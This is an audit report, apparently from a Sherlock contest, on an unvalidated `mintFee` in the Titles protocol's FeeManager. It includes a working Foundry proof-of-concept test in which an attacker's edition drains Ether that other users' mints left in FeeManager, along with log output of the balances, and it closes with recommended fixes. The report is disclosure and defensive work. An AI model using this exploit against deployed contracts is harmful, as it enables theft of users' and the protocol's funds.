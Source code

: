 Sleepy Cider Cormorant

high

# Unvalidated `mintFee` that leads to stealing from `FeeManager`

## Summary

The mintFee variable is not validated and allows the edition creator to set over 100% and steal excessively sent Ether and Ether kept on fee manager.

The `mintFee` variable is not validated and allows the edition creator to set high fee and steal excessively sent Ether or Ether kept on fee manager.


## Vulnerability Detail

The creator of edition can steal funds stored on `FeeManager` by setting high `mintFee` (close to `FeeManager`'s balance) and mint a token without any `msg.value` sent. 

Even though the EDITION_MANAGER_ROLE is considered trusted, it is only trusted within the scope of their own edition. This trust cannot be applied here, as the funds will be stolen from another contract that kept Ether from different mints. This particular scenario opens a way for attacker to easily steal the Ether sent by the user and the holdings and approvals of `FeeManager`.

**Note:** The vulnerability will have an even greater impact on ERC20 tokens, which, although they were excluded from the scope after the start of the contest, the team still plans to support. Then it will be possible not only to steal them, but also the amount approved for `FeeManager` by the user.

**Important:** The funds on `FeeManager` contract can appear from different sources, including direct call because it has `receive()` function and the `withdraw()` function that is used by the admin to rescue tokens. 

The POC scenario shows the following situation:
1. There are no funds at FeeManager.
2. Alice mints 1 token of a legit edition, and now there is 0.9494 ether stored on the `FeeManager`.
3. Attacker creates new edition with big mint fee.
4. Attacker mints 1 token of his edition without any `msg.value`.
5. `FeeManager` covers the cost of attacker's mint and sends him the mint fee.

## PoC results

Balances of the fee manager and creator before the mint and after the mint:

```solidity
[PASS] test_mintFee_Theft() (gas: 1592058)
Logs:
  BEFORE MALICIOUS MINT
  Fee Manager balance:      949400000000000000
  Attacker balance:         100000000000000000
  AFTER MALICIOUS MINT
  Fee Manager balance:       48800000000000000
  Attacker balance:        1000000000000000000
```

## PoC file 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test, console} from "forge-std/Test.sol";

import {LibZip} from "lib/solady/src/utils/LibZip.sol";

import {
    ETH_ADDRESS, EditionCreated, Metadata, Node, Strategy, Target
} from "src/shared/Common.sol";
import {Edition} from "src/editions/Edition.sol";
import {TitlesCore} from "src/TitlesCore.sol";

contract MockSplitFactory {
    struct Split {
        address[] recipients;
        uint256[] allocations;
        uint256 totalAllocation;
        uint16 distributionIncentive;
    }

    function createSplit(Split memory, address, address) external view returns (address) {
        return address(this);
    }
}

contract TitlesCoreTest is Test {
    TitlesCore public titlesCore;

    function setUp() public {
        titlesCore = new TitlesCore();
        titlesCore.initialize(address(1), address(new MockSplitFactory()));
    }

    function test_mintFee_Theft() public {

        address creator = vm.addr(0x101);
        address alice = vm.addr(0x102);
        address referrer = vm.addr(0x103);
        address attacker = vm.addr(0x104);

        vm.deal(alice, 1.1 ether);
        vm.deal(attacker, 0.1 ether);
        
        Edition legitEdition = _createEdition(
            TitlesCore.WorkPayload({
                creator: Target({target: creator, chainId: block.chainid}),
                attributions: new Node[](0),
                maxSupply: 100,
                opensAt: uint64(block.timestamp),
                closesAt: uint64(block.timestamp + 3 days),
                strategy: Strategy({
                    asset: ETH_ADDRESS,
                    mintFee: 0.05 ether,
                    revshareBps: 1000,
                    royaltyBps: 250
                }),
                metadata: Metadata({label: "Werk", uri: "https://ipfs.io/{{hash}}", data: new bytes(0)})
            }),
            Metadata({label: "Test Edition", uri: "https://ipfs.io/{{hash}}", data: new bytes(0)})
        );

        // Alice mints some tokens
        vm.prank(alice);
        legitEdition.mint{value: 1 ether}(alice, 1, 1, address(0), new bytes(0));
        
        //Attacker creates a new edition with big mint fee (0.9 eth)
        vm.prank(attacker);
        Edition maliciousEdition = _createEdition(
            TitlesCore.WorkPayload({
                creator: Target({target: attacker, chainId: block.chainid}),
                attributions: new Node[](0),
                maxSupply: 100,
                opensAt: uint64(block.timestamp),
                closesAt: uint64(block.timestamp + 3 days),
                strategy: Strategy({
                    asset: ETH_ADDRESS,
                    mintFee: 0.9 ether,
                    revshareBps: 1000,
                    royaltyBps: 250
                }),
                metadata: Metadata({label: "", uri: "", data: new bytes(0)})
            }),
            Metadata({label: "", uri: "", data: new bytes(0)})
        );

        address feeManager = address(titlesCore.feeManager());

        console.log("BEFORE MALICIOUS MINT");
        console.log("Fee Manager balance:    ", feeManager.balance);
        console.log("Attacker balance:       ", attacker.balance);

        vm.prank(attacker);
        maliciousEdition.mint(
            attacker,
            1,
            1,
            referrer,
            ""
        );
        console.log("AFTER MALICIOUS MINT");
        console.log("Fee Manager balance:      ", feeManager.balance);
        console.log("Attacker balance:       ", attacker.balance);
    }

    function _createEdition(
        TitlesCore.WorkPayload memory workPayload,
        Metadata memory metadata
    ) internal returns (Edition e) {
        return titlesCore.createEdition{value: titlesCore.feeManager().getCreationFee().amount}(
            LibZip.cdCompress(
                abi.encode(TitlesCore.EditionPayload({work: workPayload, metadata: metadata}))
            ),
            address(0)
        );
    }
}
```

## Impact

Theft of the excessive Ether/tokens sent by the user and the holdings and approvals of `FeeManager`.

## Code Snippet

https://github.com/sherlock-audit/2024-04-titles/blob/d7f60952df22da00b772db5d3a8272a988546089/wallflower-contract-v2/src/fees/FeeManager.sol#L322-L342

## Tool used

Manual Review

## Recommendation

The fee manager should validate whether the sent `msg.value` is sufficient to cover the fees (that would protect from scenarios 1 and 3).

The strategy update should be timelocked (that would protect from scenarios 2).

Consider setting a limit for mint fee.